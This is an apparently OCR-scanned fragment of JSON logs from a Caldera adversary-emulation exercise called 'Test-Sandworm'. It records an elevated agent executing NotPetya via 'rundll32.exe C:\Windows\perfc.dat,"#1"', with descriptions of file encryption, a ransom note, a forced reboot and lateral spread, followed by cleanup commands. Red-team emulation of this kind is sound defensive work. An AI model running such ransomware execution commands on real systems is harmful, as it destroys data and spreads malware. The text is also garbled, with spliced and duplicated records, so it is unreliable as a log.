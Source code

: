 ```
ands.GetChildItemCommand ","exit_code":"1"},"agent_reported_time":"2024-11-12T08:17:07Z"},{"command":"rundll32.exe C:\\Windows\\perfc.dat,\"#1\"","plaintext_command":"rundll32.exe C:\\Windows\\perfc.dat,\"#1\"","delegated_timestamp":"2024-11-12T08:17:12Z","collected_timestamp":"2024-11-12T08:18:10Z","finished_timestamp":"2024-11-12T08:20:34Z","status":0,"platform":"windows","executor":"psh","pid":4516,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a39f75e-215d-4ef5-b505-ce81be74d58f","ability_name":"Sandworm Executes NotPetya (perfc.dat)","ability_description":"Sandworm executes NotPetya (perfc.dat). NotPetya creates a scheduled task called \"Restart\" that reboots the\nworkstation and is executed at the end of the program.\nNotPetya encrypts files under C:\\Users (recursive) via AES-128.\nNotPetya drops a ransom note in C:\\README.txt.\nNotPetya copies and executes itself on other hosts.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"impact","technique_name":"Data Encrypted for Impact","technique_id":"T1486"},"agent_reported_time":"2024-11-12T08:18:10Z"},{"command":"if (Test-Path \"C:\\README.txt\") { rm C:\\README.txt };schtasks /delete /tn Restart /F;","plaintext_command":"","delegated_timestamp":"2024-11-12T08:45:28Z","collected_timestamp":"2024-11-12T08:46:25Z","finished_timestamp":"2024-11-12T08:46:25Z","status":1,"platform":"                                        ~~~~~~~~~~~~~~~~~~~~~~~~    + CategoryInfo          : ObjectNotFound: (C:\\Windows\\perfc.dat:String) [Get-ChildItem], ItemNotFoundException    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand ","exit_code":"1"},"agent_reported_time":"2024-11-12T08:17:07Z"},{"command":"rundll32.exe C:\\Windows\\perfc.dat,\"#1\"","plaintext_command":"rundll32.exe C:\\Windows\\perfc.dat,\"#1\"","delegated_timestamp":"2024-11-12T08:17:12Z","collected_timestamp":"2024-11-12T08:18:10Z","finished_timestamp":"2024-11-12T08:20:34Z","status":0,"platform":"windows","executor":"psh","pid":4516,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a39f75e-215d-4ef5-b505-ce81be74d58f","ability_name":"Sandworm Executes NotPetya (perfc.dat)","ability_description":"Sandworm executes NotPetya (perfc.dat). NotPetya creates a scheduled task called \"Restart\" that reboots the\nworkstation and is executed at the end of the program.\nNotPetya encrypts files under C:\\Users (recursive) via AES-128.\nNotPetya drops a ransom note in C:\\README.txt.\nNotPetya copies and executes itself on other hosts.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"impact","technique_name":"Data Encrypted for Impact","technique_id":"T1486"},"agent_reported_time":"2024-11-12T08:18:10Z"},{"command":"if (Test-Path \"C:\\README.txt\") { rm C:\\README.txt };schtasks /delete /tn Restart /F;","plaintext_command":"","delegated_timestamp":"2024-11-12T08:45:28Z","collected_timestamp":"2024-11-12T08:46:25Z","finished_timestamp":"2024-11-12T08:46:25Z","status":1,"platform":"windows","executor":"psh","pid":1008,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a39f75e-215d-4ef5-b505-ce81be74d58f","ability_name":"Sandworm Executes NotPetya (perfc.dat)","ability_description":"Sandworm executes NotPetya (perfc.dat). NotPetya creates a scheduled task called \"Restart\" that reboots the\nworkstation and is executed at the end of the program.\nNotPetya encrypts files under C:\\Users (recursive) via AES-128.\nNotPetya drops a ransom note in C:\\README.txt.\nNotPetya copies and executes itself on other hosts.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"impact","technique_name":"Data Encrypted for Impact","technique_id":"T1486"},"output":{"stdout":"","stderr":"ERROR: The system cannot find the file specified.\r","exit_code":"1"},"agent_reported_time":"2024-11-12T08:46:24Z"},{"command":"if (Test-Path \"C:\\Windows\\perfc.dat\") { rm C:\\Windows\\perfc.dat };","plaintext_command":"","delegated_timestamp":"2024-11-12T08:45:28Z","collected_timestamp":"2024-11-12T08:46:25Z","finished_timestamp":"2024-11-12T08:46:27Z","status":0,"platform":"windows","executor":"psh","pid":496,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"ba30987a-efc8-46a6-b0ec-94f4cc53dbff","ability_name":"Sandworm Download NotPetya","ability_description":"Sandworm downloads NotPetya (perfc.dat) using powershell.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-
```